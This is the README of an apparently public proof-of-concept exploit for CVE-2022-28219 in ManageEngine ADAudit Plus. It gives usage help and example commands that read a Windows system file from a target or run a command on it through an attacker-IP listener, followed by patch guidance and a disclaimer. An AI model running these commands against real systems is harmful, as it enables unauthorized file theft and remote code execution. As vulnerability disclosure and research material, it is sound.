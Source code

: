 # CVE-2022-28219
POC for CVE-2022-28219 affecting ManageEngine ADAudit Plus builds < 7060

## Technical Analysis
More details on our blog:
https://www.horizon3.ai/red-team-blog-cve-2022-28219

## Usage

```
% python3 CVE-2022-28219.py -h
usage: CVE-2022-28219.py [-h] -t TARGET -l LHOST -d DOMAIN [-lhp HTTP_PORT] [-lfp FTP_PORT] [-f FILE] [-c COMMAND] [-u USER]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target URL with port
  -l LHOST, --lhost LHOST
                        local bind IP
  -d DOMAIN, --domain DOMAIN
                        fully qualified domain served by ADAudit Plus
  -lhp HTTP_PORT, --http-port HTTP_PORT
                        local HTTP port to bind to
  -lfp FTP_PORT, --ftp-port FTP_PORT
                        local FTP port to bind to
  -f FILE, --file FILE  get file or directory listing at given path, use forward slashes and don't include drive, e.g. /windows/win.ini or /users
  -c COMMAND, --command COMMAND
                        command to execute, e.g. calc.exe
  -u USER, --user USER  user running ADAudit Plus app, useful for finding upload file quickly
```

For instance, to grab the `c:\windows\win.ini` file:

`python3 CVE-2022-28219.py -t <target_url> -l <attacker_ip> -d <target_fqdn> -f /windows/win.ini`

Or to run `calc.exe` on the target:

`python3 CVE-2022-28219.py -t <target_url> -l <attacker_ip> -d <target_fqdn> -c calc.exe`

Note file retrieval and RCE requires ManageEngine ADAudit Plus to be running on Java runtime 8u121 or below. This will be true most of the time as the default Java runtime version bundled with ADAudit Plus is 8u051.

## Mitigation

Update to [ManageEngine ADAudit Plus build 7060 or later](https://www.manageengine.com/products/active-directory-audit/cve-2022-28219.html).

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.